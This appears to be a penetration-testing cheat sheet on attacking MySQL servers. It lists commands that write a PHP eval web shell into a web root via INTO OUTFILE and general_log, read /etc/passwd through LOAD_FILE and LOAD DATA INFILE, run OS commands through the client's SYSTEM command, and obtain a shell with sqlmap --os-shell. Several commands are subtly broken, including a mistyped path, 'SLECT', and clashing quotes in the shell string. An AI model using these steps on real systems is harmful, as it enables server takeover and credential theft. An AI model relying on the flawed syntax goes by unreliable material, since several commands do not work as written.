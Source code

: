 # MySQL

<details>

<summary>Introduction</summary>

MySQL 是一个开源的关系型数据库管理系统（RDBMS），广泛用于存储和管理结构化数据。它支持多种操作系统，并提供了丰富的功能，如数据存储、检索、修改和删除等。MySQL 采用客户端-服务器架构，其中客户端应用程序通过 SQL（Structured Query Language）与服务器进行交互。MySQL 具有良好的性能、可靠性和可扩展性，并支持事务处理和复制等高级功能。它被广泛应用于 Web 开发、企业应用、电子商务和数据分析等各种场景中，是最流行的关系型数据库之一。

</details>

<table><thead><tr><th width="178">Name</th><th>MySQL</th></tr></thead><tbody><tr><td><strong>Default Port</strong></td><td>3306</td></tr><tr><td><strong>GetShell?</strong></td><td>Yes</td></tr><tr><td><strong>Vulnerability</strong></td><td><ul><li>File Write</li><li>File Read</li><li>Remote Command Execution</li><li>Get Shell</li></ul></td></tr></tbody></table>

## File Write

```bash
# Query the path with write permissions
# if it is empty, it means that it can write to any path
# before MySQL version 5.7 it is empty by default
SHOW GLOBAL VARIABLES LIKE '%secure_file_priv%';

# Use the INTO OUTFILE statement
SELECT '<?php @eval($_REQUEST['exec']);?>' INTO OUTFILE '/var/ww/html/phpinfo.php';

# Use the log function
SHOW VARIABLES LIKE '%general%';
SET GLOBAL general_log = "ON";
SET GLOBAL general_log_file="/var/www/html/shell.php";
SLECT '<?php phpinfo(); ?>';

# Use sqlmap
sqlmap -u "URL" --file-write="/LOCAL/PATH/FILE" --file-dest="/REMOTE/PATH/FILE"
```

## File Read

```bash
# LOAD_FILE 语句读取文件
# Use LOAD_FILE segment
SELECT LOAD_FILE( "/etc/passwd" );

# Use LOAD DATA INFILE ... INTO TABLE segment
USE mysql;
LOAD DATA INFILE '/etc/passwd' INTO TABLE user;
SELECT * FROM user;
```

## Remote Command Execution

{% code title="Environment" %}
```bash
HOST=; $USNM=root; $PSWD=root; # TARGET HOST INFO
```
{% endcode %}

```bash
# Use SYSTEM segment (MySQL version 5.x)
mysql -h$HOST -u$USNM -p$PSWD
# IN MySQL CLI
SYSTEM cat /etc/passwd;
```

## GetShell

```bash
# Use sqlmap (you need to know the absolute path of website)
sqlmap -u "URL" --os-shell
```
